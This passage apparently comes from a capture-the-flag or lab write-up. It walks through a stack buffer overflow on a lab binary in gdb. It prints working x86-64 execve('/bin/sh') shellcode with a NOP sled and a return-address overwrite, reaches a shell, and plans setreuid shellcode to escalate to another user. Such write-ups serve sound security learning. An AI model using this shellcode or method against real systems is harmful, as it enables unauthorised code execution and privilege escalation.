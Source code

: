 And after adding more bytes to it, we can see that the return address for this is also 6 bytes long. So let's use the shellcode we used previously and see where it starts:

```
(gdb) run $(python -c "print('\x90'*90+'\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05'+'\x90'*33+'A'*6)")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user1/overflow-4/buffer-overflow-2 $(python -c "print('\x90'*90+'\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05'+'\x90'*33+'A'*6)")
new word is doggoj;XH1I//bin/shAPHRWHj<XH1AAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x0000414141414141 in ?? ()
```

So this offset works well enough, now let's see where the first NOP characters end and shellcode starts in memory:

```
(gdb) x/100x $rsp-200
...
0x7fffffffe938: 0x90909090      0x6a909090      0x3148583b      0x2fb849d2
0x7fffffffe948: 0x6e69622f      0x4968732f      0x4108e8c1      0xe7894850
```

So our memory address (last 6 bytes) will be `\x38\xe9\xff\xff\xff\x7f`:

```
(gdb) run $(python -c "print('\x90'*90+'\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05'+'\x90'*33+'\xe8\xe8\xff\xff\xff\x7f')")
Starting program: /home/user1/overflow-4/buffer-overflow-2 $(python -c "print('\x90'*90+'\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05'+'\x90'*33+'\x38\xe9\xff\xff\xff\x7f')")
new word is doggoj;XH1I//bin/shAPHRWHj<XH1
process 13597 is executing new program: /usr/bin/bash
sh-4.2$ whoami
Detaching after fork from child process 13600.
user1
```

This does return a shell, but it's `user1`'s. Let's see what is the user id for the user who owns this binary and `secret.txt`:

```
[user1@ip-10-10-140-244 overflow-4]$ id user3
uid=1003(user3) gid=1003(user3) groups=1003(user3)
```

We can use `pwntools` to generate a shellcode with SETREUID:

```
pwn shellcraft -f d amd64.linux.setreuid 1003
```
